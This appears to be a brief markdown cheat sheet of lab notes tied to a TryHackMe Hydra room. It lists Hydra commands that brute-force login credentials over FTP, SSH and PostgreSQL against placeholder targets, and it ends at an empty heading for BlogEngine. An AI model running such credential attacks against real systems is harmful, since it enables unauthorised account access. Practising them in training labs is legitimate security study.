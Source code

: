 # Bruteforcing 

## HYDRA
> https://tryhackme.com/room/hydra
```
hydra -l user -P passlist.txt ftp://MACHINE_IP
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh


```

### HYDRA on Postgre

```bash
username_list="/path/to/file"
password_list="/path/to/file"
target_ip=1.1.1.1
hydra -L $username_list -P $password_list -s 5432 -v -V postgres://$target_ip

```
### Hydra on BlogEngine
